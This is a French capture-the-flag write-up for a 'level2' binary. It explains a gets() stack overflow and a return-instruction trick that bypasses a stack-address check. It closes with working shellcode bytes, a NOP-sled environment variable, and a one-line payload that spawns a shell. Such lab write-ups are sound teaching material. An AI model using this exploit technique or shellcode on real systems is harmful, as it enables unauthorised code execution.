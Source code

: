 
## Level 2

En dessasemblant le binaire level2, on trouve deux fonctions:

`main()` qui fait un simple appel a `p()`.

`p()` déclare un tableau de 76 bytes.
La fonction va lire sur l'entrée standart avec l'appel `gets()`qui est vulnérable, et stocker le resultat dans ce
tableau `src`.

![image](https://user-images.githubusercontent.com/29956389/94676129-271acc00-031b-11eb-8e8e-b462d6902a54.png)

Ensuite un pointeur est déclaré a l'adresse `[ebp + 0x4]`.
Une opération binaire est éffectué sur cette adresse, une condition est ensuite vérifié:

Si la condition est vrai, le programme affiche l'adresse du pointeur et quitte.

Si la condition est fausse, la chaine de caractère est affiché et copié, puis la
fonction quitte.

Le pointeur [ebp + 0x4] est en dehors de notre stackframe, la condition vérifie donc si un overflow a modifié l'adresse a cette adresse, qui est l'adresse de retour a laquelle la fonction sautera a la fin de l'execution.

Comme la condition vérifie que le premier byte qui overflow le tableau commence
par `0xb (adresse de stack)`, on ne peut pas directement placer l'adresse de notre
nopsled dedans (Qui serait d'habitude soit sur la stack, soit dans l'environement).

Par contre, on peut y déclarer toute autre valeur, comme par exemple l'adresse
de l'instruction `return` de cette fonction meme fonction. Cela nous permetra de retourner deux fois de la fonction: une premiere fois pour passer la verification, puis une deuxieme fois pour aller a notre shellcode. c'est pourquoi il faut bien ecrire l'adresse du millieu de notre nopsled ensuite.

Le calcul a effectuer pour avoir l'adresse du millieu de notre nopsled est le suivant : 
 - Adresse variable SLEDCODE + (Adresse variable SLEDCODE+ 1 - Addresse variable SLEDCODE) / 2
 
 La commande pour examiner l'environnement: 
 
(gdb)> x/4s *((char**)environ)

Commande a laquelle nous ajoutons +1 jusqu'a trouver l'adresse de la variable SLEDCODE, puis nous cherchons l'adresse de la variable suivante.

Soit `[80 bytes pour remplir le buffer] + [Adresse instruction ret de la fonction p()] + [Adresse millieu du Nopsled]`.

En code:

`echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`export SLEDCODE=$(python -c 'print "\x90"*128')$(cat /tmp/shellcode.bin)`

`python -c 'print "B"*80 + "\x3e\x85\x04\x08" + "\x10\xf9\xff\xbf"' > /tmp/buffer`

`cat /tmp/buffer - | ./level2`

Et on obtient un shell!
